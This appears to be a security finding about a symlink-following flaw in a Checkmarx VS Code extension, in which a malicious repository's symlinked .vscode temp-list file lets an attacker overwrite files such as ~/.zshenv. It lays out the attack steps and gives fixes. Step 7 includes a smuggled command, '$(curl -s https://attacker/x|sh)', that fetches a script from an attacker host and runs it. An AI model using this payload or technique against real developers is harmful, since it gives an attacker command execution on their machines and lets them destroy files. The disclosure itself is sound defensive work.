

# Repo-controlled symlinked .vscode ignore files let a malicious workspace write arbitrary files

| Field | Value |
|---|---|
| ID | `find_01UVSqcYKBpFccumUmucQkGN` |
| Severity | **High** |
| Status | open |
| CWE | CWE-59 — Link following |
| Created | 2026-10-22T14:03:38.224020Z |
| Claude Security | https://claude.ai/security/findings/find_01UVSqcYKBpFccumUmucQkGN |

## Description

A malicious repository can make the Checkmarx extension overwrite or create any file the developer can write, with partly attacker-chosen content. Writing a shell startup file such as `~/.zshenv` gives command execution as the developer. It needs the victim to open the repository in a trusted folder on Linux or macOS. `updateTempList()` writes through a committed symlink at `.vscode/.checkmarxIgnoredTempList.json` and never checks for links.

1. **attacker** commits a crafted `.vscode` folder to a repository. It holds a regular `.vscode/.checkmarxIgnored` with a stale active `Oss` entry for `package.json` and a `Containers` entry whose `imageName` carries a `$(...)` command. It also holds `.vscode/.checkmarxIgnoredTempList.json` as a symlink to a file such as `~/.zshenv`, and a `.vscode/settings.json` that enables OSS-Realtime.
2. **victim's extension** starts scanning every manifest when the folder is opened. `initializeScanner()` calls `scanAllManifestFilesInWorkspace()`, and the activation setting has no `scope` restriction, so the repository's own `.vscode/settings.json` can switch it on. ([`packages/core/src/realtimeScanners/scanners/oss/ossScannerCommand.ts:25-40`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/scanners/oss/ossScannerCommand.ts#L25-L40))
3. **`loadIgnoreData()`** parses the repository's `.vscode/.checkmarxIgnored` with `JSON.parse`. It does no validation, so entry keys, types, paths and every string field come from the attacker. ([`packages/core/src/realtimeScanners/common/ignoreFileManager.ts:342-349`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/common/ignoreFileManager.ts#L342-L349))
4. **the OSS scanner and CLI** runs the scan and carries on when the temp list cannot be parsed. If the link already points at a non-JSON file such as `~/.zshrc`, `loadIgnoredPackages` fails, the CLI logs the error and exits 0, so the extension still reaches the cleanup. If the link is dangling, the temp-list path is never passed to the CLI. ([`internal/services/realtimeengine/ossrealtime/oss-realtime.go:103-110`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/services/realtimeengine/ossrealtime/oss-realtime.go#L103-L110))
5. **`cleanupIgnoredEntries()`** calls `removePackageEntry()` for the attacker's entry. The made-up key matches no full-scan result, so the entry is treated as stale and removed without any user action. That runs `saveIgnoreFile()` and then `updateTempList()`. ([`packages/core/src/realtimeScanners/scanners/oss/ossScannerService.ts:601-650`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/scanners/oss/ossScannerService.ts#L601-L650))
6. **`updateTempList()`** writes the remaining active entries to the temp-list path with `fs.writeFileSync`. The call has no `O_NOFOLLOW` and no `lstat` check, so it truncates and rewrites the symlink target with JSON containing the attacker's strings, or creates the target if it is missing. ([`packages/core/src/realtimeScanners/common/ignoreFileManager.ts:745-819`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/common/ignoreFileManager.ts#L745-L819))
7. **victim's shell** starts and runs the injected command from the rc file. bash and zsh expand `$(...)` inside double quotes, and the stray `[`, `{`, `}` and `]` lines only cause runtime errors. A line like `"ImageName": "$(curl -s https://attacker/x|sh)"` therefore runs the attacker's command.

## Assessment

The attacker only needs to get a repository in front of the victim. The victim must be signed in with a licence and must open the folder in a trusted state, or the content must arrive in an already trusted folder, for example by checking out a PR branch. Neither shipped package declares `capabilities.untrustedWorkspaces`, so the extension does not run in Restricted Mode. Git checks out the symlink as a symlink on Linux and macOS. The link can be absolute or relative, like `../../.zshenv`. The OSS scan is the main trigger, and it also runs again on open or edit. A second trigger is `cleanupContainersIgnoredEntriesWithoutFileWatcher()`, which calls `removeMissingContainers()` for any stale active containers entry on a scanned Dockerfile. `removeMissingSecrets()`, `removeMissingIac()` and `removeMissingAsca()` follow the same writes after their scans, as does every user 'Ignore' action. Separately, `ensureIgnoreFileExists()` writes `{}` through a dangling ignore-file link on every activation, because `fs.existsSync` returns false for it.

Impact: The attacker can overwrite or create any file the developer can write, with partly attacker-controlled content. Writing a shell startup file gives command execution as the developer the next time an interactive shell starts, including access to the stored Checkmarx credentials. Without the shell trick, the attacker can still destroy any file the user can write.

## Recommendation

(1) The extension keeps its state files inside untrusted workspace content and writes them with symlink-following `fs.writeFileSync`, so the repository author chooses where the extension writes.

Fix criteria: Writes of the ignore file and the temp list never follow a link or leave the workspace. The code refuses to read or write when `.vscode`, `.checkmarxIgnored` or `.checkmarxIgnoredTempList.json` is a symlink or not a regular file, checked with `lstat`. Alternatively, the temp list lives in the extension's `globalStorageUri` or in a private temp file created with `O_EXCL`. Test: with a repository containing a symlinked temp list, an OSS or containers scan and an 'Ignore' action leave the link target untouched.

(2) `loadIgnoreData()` trusts arbitrary JSON from the repository, so attacker strings and made-up entries drive automatic rewrites.

Fix criteria: The ignore file's shape is validated: known keys, string, boolean or number types, and `files[].path` confined to the workspace. The code does not auto-rewrite files based on entries the current user did not create. At minimum, it requires the file to be a regular file owned by the workspace before honouring it. Test: a malformed or fabricated entry does not trigger `saveIgnoreFile()` or `updateTempList()`.

## Evidence

**https://github.com/cx-benchmark/ast-vscode-extension**

- [`packages/core/src/realtimeScanners/common/ignoreFileManager.ts:745-819`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/common/ignoreFileManager.ts#L745-L819)
- [`packages/core/src/realtimeScanners/common/ignoreFileManager.ts:351-361`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/common/ignoreFileManager.ts#L351-L361)
- [`packages/core/src/realtimeScanners/common/ignoreFileManager.ts:342-349`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/common/ignoreFileManager.ts#L342-L349)
- [`packages/core/src/realtimeScanners/common/ignoreFileManager.ts:332-340`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/common/ignoreFileManager.ts#L332-L340)
- [`packages/core/src/realtimeScanners/scanners/oss/ossScannerService.ts:174-187`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/scanners/oss/ossScannerService.ts#L174-L187)
- [`packages/core/src/realtimeScanners/scanners/oss/ossScannerService.ts:601-650`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/scanners/oss/ossScannerService.ts#L601-L650)
- [`packages/core/src/realtimeScanners/scanners/oss/ossScannerCommand.ts:25-40`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/scanners/oss/ossScannerCommand.ts#L25-L40)
- [`packages/core/src/realtimeScanners/scanners/containers/containersScannerService.ts:457-470`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/packages/core/src/realtimeScanners/scanners/containers/containersScannerService.ts#L457-L470)

**https://github.com/cx-benchmark/ast-cli**

- [`internal/services/realtimeengine/ossrealtime/oss-realtime.go:103-110`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/services/realtimeengine/ossrealtime/oss-realtime.go#L103-L110)

